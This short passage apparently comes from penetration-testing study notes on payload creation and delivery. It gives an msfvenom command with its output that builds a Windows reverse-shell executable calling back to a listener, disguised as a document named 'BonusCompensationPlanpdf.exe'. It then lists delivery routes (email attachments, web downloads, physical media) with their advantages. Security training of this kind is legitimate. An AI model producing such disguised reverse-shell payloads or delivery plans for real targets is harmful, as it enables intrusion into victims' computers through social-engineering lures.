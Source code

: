 #### Windows EXE Payload Example

**Command:**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

**Output:**
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

### Payload Delivery Methods

#### 1. Email Attachments

**Advantages:**
- Direct user interaction
- Can target specific individuals
- Bypasses network perimeter controls

**Considerations:**
- Email security filters
- User awareness training
- Antivirus scanning

#### 2. Web Downloads

**Advantages:**
- Wide distribution potential
- Can be combined with social engineering
- Multiple delivery vectors

**Considerations:**
- Web application firewalls
- Browser security features
- User download behavior

#### 3. Physical Media

**Advantages:**
- Bypasses network controls
- High success rate if executed
- Direct access to target environment

**Considerations:**
- Physical security controls
- Autorun policies
- User education
